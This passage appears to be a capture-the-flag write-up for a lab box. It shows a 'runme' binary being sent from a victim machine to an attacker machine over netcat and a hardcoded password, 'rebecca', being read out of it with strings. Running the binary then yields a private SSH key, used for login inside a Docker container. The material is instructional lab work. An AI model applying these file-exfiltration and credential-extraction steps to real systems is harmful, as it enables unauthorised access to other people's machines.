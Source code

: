 - To analyze the binary, we need `strings` (This was not available in the victim machine)
- Transfering the `runme` binary to attacker machine using `nc` and run `strings`:

- On the victim machine:

```bash
# nc 10.17.7.91 1234 < runme
```

- On the attacker machine:

```
$ nc -lvnp 1234 > runme
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.151.249] 34922
^C

$ file runme
runme: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5d24f8a79f2afcadac716e2a6f6cdad3f38d9fe, for GNU/Linux 3.2.0, not stripped

$ strings runme 
[..snip..]
rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[..snip..]
```

- As you can see, `rebecca` must be the password.
- Once we run the binary, we get the **private ssh key**: 

```bash
# ./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 

# ls
id_rsa
runme

# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
[..snip..]
-----END RSA PRIVATE KEY-----
```

---

## Inside Docker container

- Login using the private ssh key.
    - **Note:** Modify the permission of `id_rsa` to `600`
